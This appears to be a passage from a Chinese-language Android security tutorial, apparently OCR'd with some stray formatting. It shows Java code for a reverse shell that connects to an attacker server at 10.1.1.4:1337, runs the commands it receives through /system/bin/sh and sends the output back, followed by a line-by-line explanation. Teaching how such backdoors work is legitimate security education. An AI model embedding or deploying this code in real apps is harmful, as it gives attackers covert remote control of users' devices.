               Log.d("TCP CONNECTION", String.format("Connecting to %s:%d (TCP)", HOST, PORT));

              while (true) {

                out = new PrintWriter(new BufferedWriter(new OutputStreamWriter(socket.getOutputStream())), true);

                in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

                String command = in.readLine();

                Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});

                BufferedReader reader = new BufferedReader(
                  new InputStreamReader(process.getInputStream()));
                  int read;
                  char[] buffer = new char[4096];
                  StringBuffer output = new StringBuffer();
                  while ((read = reader.read(buffer)) > 0) {
                    output.append(buffer, 0, read);
                  }
                  reader.close();

                  String commandoutput = output.toString();

                  process.waitFor();

                  if (commandoutput != null) {

                    sendOutput(commandoutput);

                   }
                   out = null;

                 }

               } catch (Exception e) {
                 e.printStackTrace();
                 }

             }
          };
          thread.start();

        }
        ```

    以下代码实现了所有这些功能：

让我们逐行理解前面的代码：

*   首先，我们创建了一个线程，以避免在主线程上执行网络任务。当应用程序在主线程上执行网络任务时，可能会导致应用程序崩溃。自 Android 4.4 以来，这些操作将引发运行时异常。
*   然后我们声明了攻击者服务器的 IP 地址和端口号。在本例中，攻击者服务器的 IP 地址为`10.1.1.4`，端口号为`1337`。您可以根据需要更改这两个选项。
*   然后我们实例化了`PrintWriter`**和`BufferedReader`**对象。`out`是为向攻击者发送命令输出而创建的对象。目标`in`是接收攻击者的命令。****
*****   然后我们编写了下面的代码，其中我们使用`InputStreamReader`**对象读取字符串输入。用外行的话说，这些是攻击者通过远程 shell 发送的命令：

    ```
    String command = in.readLine();
    ```** ***   在上述行中接收的输入命令应由应用程序执行。这是使用以下代码完成的，其中 Java 的`exec()`方法用于运行系统命令。正如您在下面的代码中所看到的，`command`是一个字符串变量，在上一步中，从攻击者接收到的命令存储在该变量中。它由安卓设备上的`/system/bin/sh`二进制文件执行：
